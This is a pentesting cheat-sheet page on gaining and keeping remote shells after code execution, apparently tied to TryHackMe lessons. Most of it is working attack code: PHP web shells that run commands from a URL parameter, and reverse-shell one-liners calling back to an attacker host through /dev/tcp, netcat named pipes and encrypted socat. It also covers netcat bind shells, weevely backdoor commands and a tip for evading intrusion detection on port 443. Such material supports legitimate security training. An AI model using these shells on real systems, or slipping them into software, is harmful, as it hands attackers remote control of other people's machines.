 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![Reverse Shell](../../_badges/poat/reverse_shell.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside ([gitlab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## Tools to generate payloads

A payload is a code leading to a reverse/bind/web shell. You will pick one based on criteria like the platform...

<div class="row row-cols-md-2"><div>

🐍 [msfvenom](metasploit/msfvenom.md) is a famous **script** to generate payloads. 🐍

There is a **website** called [revshells](https://www.revshells.com/) that is also giving commands to listen, and some of msfvenom payloads.
</div><div>

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create payloads.

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create payloads.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

* ➡️ [weevely3](https://github.com/epinna/weevely3) (2.7k ⭐)

```bash
# generate a webshell.php protected by password
$ weevely generate <password> webshell.php
# connect to the webshell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
# ex: listen on HOST_IP port 4444
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```

* ➡️ Using netcat

```bash
# on the hacker machine
$ nc -lnvp port
```

```bash
# on the target
$ nc -c /bin/bash hacker_ip port
# or if -e is available
$ nc hacker_ip port -e /bin/bash
```
</div><div>

* ➡️ Each of the common below are connect to `IP:PORT`

```bash
# tcp socket
$ /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
# named pipe
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP PORT >/tmp/f
```

* ➡️ Socat is creating a socket on each host, and support encryption.

```bash
# l = listen
$ socat TCP-L:port - # listen
$ socat TCP:hacker_ip:port EXEC:"bash -li" # connect from Linux
PS > socat TCP:hacker_ip:port EXEC:powershell.exe,pipes # connect from Windows, cmd.exe too
```

```bash
# more stable if target and host are running Linux
$ socat TCP-L:port FILE:`tty`,raw,echo=0
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane 
```

```bash
# encryption
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
# use 
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```

</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# on the target
$ nc -lnvp port -e /bin/bash
```
```bash
# on the hacker machine
$ nc target_ip port
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite instable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password

* 🍃 You can't clear nor resize your terminal

* 👑 There is no autocompletion

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```

* ➡️Use a wrapper such as [pwncat-cs](https://github.com/calebstewart/pwncat) (1.8k ⭐)

```bash
$ pwncat-cs -lp 4444
```

* ➡️Use a wrapper such as [pwncat](https://github.com/cytopia/pwncat) (1.5k ⭐)

```bash
$ pwncat -lvv 4444
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>